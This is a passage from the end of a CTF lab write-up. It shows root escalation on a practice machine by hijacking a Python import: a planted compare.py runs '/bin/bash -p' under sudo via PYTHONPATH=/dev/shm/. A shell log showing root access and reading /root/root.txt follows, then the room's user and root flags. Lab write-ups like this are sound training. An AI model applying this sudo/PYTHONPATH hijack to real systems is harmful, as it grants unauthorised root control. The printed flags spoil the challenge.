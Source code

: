 - Now we create a new `compare.py` script that will execute `/bin/bash -p` and run it with PATH `PYTHONPATH=/dev/shm/` since it's required for sudo privileges. After that just read the flag.

  ```
  wes@ubuntu-xenial:/dev/shm$ nano compare.py
  wes@ubuntu-xenial:/dev/shm$ ls -al
  total 4
  drwxrwxrwt  2 root root   60 May 18 15:08 .
  drwxr-xr-x 16 root root 3560 May 18 14:44 ..
  -rw-r--r--  1 wes  wes   376 May 18 15:08 compare.py

  wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py 
  root@ubuntu-xenial:/dev/shm# whoami
  root
  root@ubuntu-xenial:/dev/shm# id
  uid=0(root) gid=0(root) groups=0(root)
  root@ubuntu-xenial:/dev/shm# cat /root/root.txt
  JPC{665b7f2e59cf44763e5a7f070b081b0a}
  
  Also huge shoutout to Westar for the OSINT idea
  i wouldn't have used it if it wasnt for him.
  and also thank you to Wes and Optional for all the help while developing

  You can find some of their work here:
  https://github.com/WesVleuten
  https://github.com/optionalCTF
  ```

- That's all folks, love me some Python! You can find compare script [here](https://github.com/mauzware/Random-Scripts/blob/main/pwn-other/compare.py).

---

## 🏁 Flags

- **User Flag**: `JPC{487030410a543503cbb59ece16178318}`
- **Root Flag**: `JPC{665b7f2e59cf44763e5a7f070b081b0a}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding my way to root.`

- What did I learn?
  `New way of getting reverse shell.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
